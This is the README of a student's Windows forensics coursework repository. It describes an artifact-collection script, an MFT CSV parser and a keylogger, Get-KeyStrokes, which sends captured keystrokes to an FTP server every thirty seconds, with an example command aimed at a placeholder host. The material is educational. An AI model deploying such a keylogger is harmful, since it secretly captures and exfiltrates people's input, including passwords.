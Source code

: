 # DFIR_trd6577_CSEC475
Windows Forensics Repository

This repository is for work done in my Windows Forensics class at RIT

## Get-Artifacts
This Powershell script gets a large amount of artifacts from a computer. Some of these artifacts include:
* Time
* Windows version
* Hardware specs
* Domain controller information
* List of users (local, domain, system, and service)
* Services/programs that start on boot
* ARP and routing tables
* Network interface information
* Established connections and their associated process IDs
* Process list
* Driver list

### Usage
`Get-Artifacts.ps1 [-Csv] [-CsvPath C:\desired\path\to\csv] [-Email] [-Computers computer1,computer2,computer3]`

By default, Get-Artifacts (run without any arguments) outputs the artifacts collected from the local computer onto the screen
* -Csv tells the script to output the artifacts in a CSV file
* -CsvPath specifies where to place the CSV file. By default, -CsvPath is set to the directory the script is placed in
* -Email means that you want to generate a csv file and email it to someone. This option only works with Gmail accounts
that do not have two factor authentication enabled and have changed their Google settings to allow insecure app access
* -Computers allows you to specify remote computer to connect to and gather this information from

## Get-KeyStrokes
This powershell script uses much of the work done by Chris Campbell and Matthew Graeber in their key logger script
(which is part of their PowerSpolit Library). It logs a user's keystrokes and then sends the keystrokes to an ftp
server every thirty seconds.

### Usage
`Get-KeyStrokes -FtpServer ftp://example.com`

Logs in with anonymous/anonymous

## Convert-MftCsvToString
This powershell script takes the CSV output of Mft2Csv and parses it for the user. It takes in the path to the CSV file generated by the program and prints out the parsed version, displaying the file names, paths, and timestamps. Optionally, you can specify a filename and it will grab the $DATA section of that file and any resident data that is in the MFT file entry. Please note that just parsing the CSV of a 700MB file takes 11GB of memory.

## Usage
`Convert-MftCsvToString -Path C:\path\to\csv\file [-GetData <filename>]`

## Author
Repository owner: Tom Daniels
